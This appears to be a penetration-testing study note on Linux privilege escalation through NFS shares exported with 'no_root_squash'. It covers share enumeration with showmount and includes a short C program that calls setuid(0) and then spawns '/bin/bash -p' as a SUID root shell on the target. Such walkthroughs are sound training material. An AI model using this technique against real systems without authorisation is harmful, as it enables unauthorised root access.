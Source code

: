 # NFS :
Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

NFS (Network File Sharing) configuration is kept in the 

      /etc/exports
    
This file is created during the NFS server installation and can usually be read by users.

![23](https://user-images.githubusercontent.com/94765997/162630258-17103d30-6003-4278-89d4-a6c6007e297a.png)

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

# We will start by enumerating mountable shares from our attacking machine.

      showmount -e @ 


![22](https://user-images.githubusercontent.com/94765997/162630298-14cbfa32-de8a-46c4-b20c-25c90e646fd4.png)

      1-We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.
      2-As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job : 
            #include <stdio.h>
            #include <stdlib.h>
            #include <unistd.h>

            int main (void){

                  setuid(0);
                  setgid(0);
                  system("/bin/bash -p");
                  return 0;
            }
      3-Once we compile the code we will set the SUID bit.
 
 ![24](https://user-images.githubusercontent.com/94765997/162630432-14aa3313-dcca-44bf-a741-8a4e521849f6.png)

  
 You will see below that both files (code.c and code are present on the target system. We have worked on the mounted share so there was no need to transfer them).
 Notice the code executable has the SUID bit set on the target system and runs with root privileges.
 
 ![25](https://user-images.githubusercontent.com/94765997/162630464-bc417857-edc5-4fca-9f08-4b9cf817fee3.png).
 
